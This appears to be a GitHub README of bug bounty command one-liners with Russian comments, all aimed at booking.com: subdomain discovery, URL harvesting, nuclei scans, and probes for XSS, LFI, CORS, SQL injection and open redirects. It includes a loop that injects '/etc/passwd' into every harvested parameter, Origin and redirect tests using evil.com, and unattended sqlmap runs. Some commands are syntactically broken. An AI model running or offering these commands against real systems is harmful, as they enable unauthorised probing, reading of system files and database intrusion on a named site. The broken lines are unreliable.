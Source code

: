 # liveBB01
live bug bounty 01

* echo booking.com > target.txt
#_________________________________________ найдет субдомены _________________________________________
* subfinder -dL target.txt -all --recursive -o subs.txt
#_________________________________________ оставляем только живые _________________________________________
* cat subs.txt | httpx -o aliveSubs.txt
 _________________________________________ вытащить все юрл с субдоменов _________________________________________
* cat subs.txt | waybackurls | tee urls.txt
 _________________________________________ перверяет субдомен тейковер среди живых доменов _________________________________________
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
_________________________________________ проверяет на cve, exposure, vuln _________________________________________
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
  _________________________________________ из юрл извлекаем те юрл у которых есть параметры и js файлы _________________________________________
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
  _________________________________________ проверяет баги в js файлах _________________________________________
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
  _________________________________________ проверяет xss _________________________________________
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
 _________________________________________ проверяет lfi _________________________________________
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
  ________________________________________ проверяет sqli ________________________________________
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
  ______________________________________ проверяет открытое перенаправление _________________________________________
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
 _________________________________________ нуклей фазер проверет все уязвимости _________________________________________
* nf -d booking.com

